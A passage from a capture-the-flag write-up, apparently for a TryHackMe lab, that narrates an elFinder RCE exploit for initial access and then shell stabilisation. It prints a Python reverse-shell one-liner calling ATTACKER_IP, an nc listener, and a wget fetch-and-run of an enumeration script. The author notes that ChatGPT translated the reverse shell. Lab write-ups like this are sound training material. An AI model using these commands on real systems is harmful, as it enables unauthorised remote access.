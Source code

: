While musing about how old this file manager looks, I remembered to look for the elFinder version to check it for known vulnerabilities on **https://exploit-db.com**. We can find the version number unter the help tab (looks like a question mark). Looking at exploit-db.com, we find an RCE vulnerability! 

<img width="1612" height="175" alt="image" src="https://github.com/user-attachments/assets/06720a3e-828a-4f90-8a4a-0479aa027b63" />


After downloading it, we run it using 
```markdown
python elfinder_RCE.py http://files.lookup.thm
```
and encounter an error. It seems like we need to have a file named "SecSignal.jpg" in out directory. We just cp a random .jpg to our directory, and then run it again.

Now it doesn't work. I re-check the url, and see that I need to append /elFinder. Run it again, and now we get a shell as www-data!

<img width="572" height="143" alt="Initial_access_lookup" src="https://github.com/user-attachments/assets/a5f9eb7b-81b9-40ed-bc0f-449aa1050326" />

### Lateral Movement 

Since we only have an unstable php shell, we'll want to get more stable one. We try to use the python3 one-liner to spawn a bash shell:
```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```
but this doesn't work to the desired effect.

Since we can make the machine connect to us, let's try a reverse shell,. We set up a listener on our attacker using the command `nc -lvnp 4444`, and then execute a bash one-liner found at https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet on the target machine, which also doesn't work. We can't use the python variant because "which python" returns nothing, but asking ChatGPT to translate it to python3 and running it works!
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```
We now have a better shell to work with.


First thing we run sudo -l, listing all the command we are allowed to execute as root without a password. Unfortunately, we are hit with a password prompt. Since we don't know the password, we'll leave that for now.
In the home directory of the user *think* we can see user.txt, but we don't have permission to read it.

After looking around for a bit longer, I decide to use a very handy script to look for privilege escalation vectors, *lse.sh*. You can download it here: https://github.com/diego-treitos/linux-smart-enumeration

Since the target isn't connected to the internet, we need to download the file onto our attacker machine and transfer it. After downloading, we run 
``` python
python3 -m http.server 8080
```
on our attacker machine, momentarily hosting a webserver with our files. On the target, we now run 
``` bash
wget http://[ATTACKER_IP]:8080/lse.sh
chmod +x lse.sh
./lse.sh
```
Seeing nothing listed in the CVE section, we turn or attention to the uncommon SUID binaries. 
